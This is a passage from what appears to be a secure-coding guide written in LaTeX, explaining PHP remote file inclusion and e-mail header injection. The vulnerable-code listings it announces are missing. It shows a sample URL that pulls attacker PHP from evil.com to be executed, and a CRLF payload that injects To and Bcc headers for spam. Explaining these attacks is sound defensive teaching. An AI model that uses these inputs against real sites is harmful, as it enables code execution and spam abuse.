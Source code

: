 This is an example of vulnerable code:


An attacker then could place some malicious code as a text file on some server (for example, at \texttt{http://evil.com/evil.txt}) and then use an URL like this to include that file:

\begin{textcode}
http://www.example.com/index.php?file=http://evil.com/evil.txt
\end{textcode}

As a result, this URL will include and execute the PHP contained in the remote file.


\subsection{E-Mail Header Injection}
\label{header-injection}
E-Mail header injection is an attack that makes use of e-mail forms or other mail functionality that uses untrusted data in e-mail header fields (like \texttt{From:}, \texttt{To:}, \texttt{Cc:} or \texttt{Subject:}).

If header-relevant data in contact forms (like the sender's name or the subject) is not sanitized of linefeeds or carriage returns, it is possible to include additional header lines like bcc:, allowing the form to be misused for sending SPAM e-mails.

The code of a vulnerable e-mail form could look like this:


An attacker then could forge a POST request (either using a HTML file that includes a form or via some program) and include a complete e-mail into the subject field (in the \texttt{email\_subject} POST data):

\begin{textcode}
Buy cheap Viagra!\r\nTo: some-spam-victim@example.org\r\n
  Bcc: other-victim@example.org, other-victim-2@example.org\r\n
  Buy cheap Viagra here: http://spamsite.example.com/\r\n
\end{textcode}

